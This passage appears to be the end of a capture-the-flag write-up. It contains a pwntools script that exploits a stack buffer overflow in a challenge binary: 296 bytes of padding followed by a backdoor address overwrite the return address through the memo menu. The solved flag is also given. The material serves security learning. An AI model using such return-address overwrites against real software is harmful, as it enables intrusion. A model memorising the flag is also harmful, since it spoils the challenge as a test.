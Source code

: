 ```python
    return r

# Specify GDB script here (breakpoints etc)
gdbscript = """
    set follow-fork-mode child
    start
    b *challenge+765
"""

# Binary filename
exe = './chal'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'
warnings.filterwarnings("ignore", category=BytesWarning, message="Text is not bytes; assuming ASCII, no guarantees.")

# =======================
# EXPLOIT AFTER THIS
# =======================
r = connect()

offset = 296
BACKDOOR = 0x40133f
payload = b"A" * offset
payload += p64(BACKDOOR)

print(r.recvuntil("> "))
r.sendline("1") # Add Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvuntil(": "))
r.sendline("304") # memo size
print(r.recvuntil(": "))
r.sendline(payload) # payload to call backdoor()
print(r.recvuntil("> "))
r.sendline("4") # Exit, to call ret

r.interactive()
```

## Flag
`flag{1a75473b-d905-4c72-bb58-b08a587a9a19}`
